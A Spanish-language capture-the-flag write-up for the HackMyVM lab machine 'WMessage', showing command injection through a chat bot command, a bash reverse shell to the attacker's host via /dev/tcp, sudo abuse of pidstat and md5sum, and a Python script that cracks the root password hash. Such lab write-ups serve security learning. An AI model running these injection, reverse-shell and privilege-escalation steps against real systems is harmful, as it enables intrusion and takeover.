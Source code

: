 ```yaml
---
layout: post
title: WMessage
date: 2022-12-04
author: BlackCage
categories: [HackMyVM]
tags: [HMV, RCE]
---
```


# WMessage [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.107 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.107 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la web veremos un panel `login` y arriba un botón llamado `Sign Up`, por lo que vamos a registrarnos. Una vez registrados veremos una especie de chat. Un tal `Master` nos dice que con el comando `!mpstat` podemos ver el estado del servidor.

Pensé que por detrás se estaba ejecutando un comando a nivel de sistema, así que tratré de inyectar comandos. Tras varios intentos llegué al `pipe` (`|`). Si ponemos `!mpstat | id` nos devolverá el comando ejecutado.

```
Server: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bien! Podemos ejecutar comandos! Para ganar una Reverse Shell primero me puse en escucha con `NC`, en mi caso por el puerto `4444`:

- `nc -nlvp 4444`

Después de eso me dirigí a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y me copié el comando en `Bash`. Vamos a ver cómo nos queda la inyección:

```
!mpstat | bash -c 'bash -i >& /dev/tcp/192.168.1.103/4444 0>&1'
```

Bien! Ya estamos en la máquina como `www-data`!

### Subida de privilegios #1
Una vez dentro de la máquina ejecuté `sudo -l` para listar todo lo que podía hacer:

```Ruby
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

Como vemos podemos ejecutar `pidstat` como `messagemaster`. En [`GTFObins`](https://gtfobins.github.io/gtfobins/pidstat/#sudo) nos enseñan a escalar privilegios con dicha herramienta, vamos a ver cómo lo hice yo:

- `sudo -u messagemaster /bin/pidstat -e /bin/bash -i`

Bien! Ya estamos como `messagemaster`!

### Subida de privilegios #2
Ahora nuestro objetivo es obtener `root`, por lo que volvemos a ejecutar `sudo -l` para saber qué podemos hacer en la máquina:

```Ruby
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

Vemos que podemos ejecutar `MD5Sum` como cualquier usuario, es decir, podemos ejecutarlo como `root`. Tras mirar en varios sitios no encontré ninguna vulnerabilidad relacionada con dicho binario.

Tras buscar un rato en la máquina llegué a `/var/www`, donde se encontraba un fichero con el nombre `ROOTPASS`. Utilicé `MD5Sum` como `root` para obtener el `hash` y en mi máquina poder romperlo:

- `sudo -u root /bin/md5sum /var/www/ROOTPASS`

```
85c73111b30f9ede8504bb4a4b682f48  /var/www/ROOTPASS
```

Bien! Ya tenemos el `hash`, podemos tratar de romperlo con `John` pero no funcionará. Me creé un `script` en `Python` para que con un diccionario (`rockyou.txt`) vaya línea por línea transformándola en `MD5` y comparándola con el `hash` que tenemos. Vamos a verlo:

```Python
import hashlib

md5 = "85c73111b30f9ede8504bb4a4b682f48"

with open("/usr/share/wordlists/rockyou.txt", encoding="utf-8", errors="ignore") as wordlist:
	lines = wordlist.readlines()
	for passwd in lines:
		passwd = passwd.replace("\n", "")
		hash = hashlib.md5((passwd.strip() + "\n").encode()).hexdigest()
		if str(hash) == md5:
			print(passwd)
```

Tras iniciarlo y esperar unos segundos vemos que sale en nuestra pantalla la contraseña de `root` (`root:Message5687`)!

Bien! Ya estamos en la máquina como `root`! Qué fácil!
